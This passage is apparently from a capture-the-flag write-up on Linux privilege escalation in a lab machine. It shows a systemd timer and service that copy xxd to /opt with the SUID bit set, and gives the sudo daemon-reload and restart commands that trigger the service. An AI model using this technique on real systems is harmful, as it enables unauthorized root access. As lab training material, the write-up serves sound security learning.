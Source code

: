 If we go in /etc/systemd/system and cat exploit.timer and then exploit.server (they go togheter) :

```
comte@ip-10-10-8-70:/etc/systemd/system$ cat exploit.timer
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target
comte@ip-10-10-8-70:/etc/systemd/system$ cat exploit.service
[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"

```

if we try to restat the exploit.timer it failed and if we status it says **bad-settings :**

```
comte@ip-10-10-8-70:/etc/systemd/system$ systemctl status exploit.timer
● exploit.timer - Exploit Timer
     Loaded: bad-setting (Reason: Unit exploit.timer has a bad unit file setting.)
     Active: inactive (dead)
    Trigger: n/a
   Triggers: ● exploit.service

```

We can modify the **settings** with **[Nano](../../3%20-%20Tags/Hacking%20Tools/Nano.md)** :

![120e2b1e89c733d8b29c3e68202bebbc.png](../../../2%20-%20Resources/Others/Flameshots/120e2b1e89c733d8b29c3e68202bebbc.png)

and then reload it and run it :

```
comte@ip-10-10-8-70:/etc/systemd/system$ sudo /bin/systemctl daemon-reload
comte@ip-10-10-8-70:/etc/systemd/system$ sudo /bin/systemctl restart exploit.timer
```

## GTFObins
